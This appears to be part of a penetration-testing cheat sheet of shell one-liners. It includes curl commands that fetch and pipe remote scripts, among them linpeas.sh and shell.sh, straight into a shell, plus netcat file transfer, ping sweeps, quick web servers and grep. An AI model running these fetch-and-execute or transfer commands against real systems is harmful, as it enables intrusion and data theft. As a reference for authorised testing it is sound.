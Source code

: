 ## Miscellaneous

- Transfer and execute .sh files without writing to disk 
```bash
curl http://10.10.10.10/linpeas.sh | sh
curl http://10.10.10.10/shell.sh | bash
```

- Transfer files with netcat (Also works on Windows obviously)
```bash
# On the receiving host
nc -lnvp 443 > file_to_save_as

# On the sending host
nc 10.10.10.10 443 < file_to_transfer
```

- Simple bash loops
```bash
# Loop over i from 0 to 100 and ping each host
for i in $(seq 0 100); do ping 127.0.0.$i; done
for i in {1..254} ;do (ping -c 1 10.10.10.$i | grep "bytes from" &) ;done
```

- Web Servers
```bash
sudo python -m SimpleHTTPServer 80
sudo python3 -m http.server 80
sudo systemctl start apache2
```

- Basic grep usage
```bash
# Grep recursively and case-insensitively for "test" in /tmp/files
grep -Ri test /tmp/files

# Grep with line numbers and filenames recursively for "test" in /tmp/files
grep -Rn test /tmp/files
```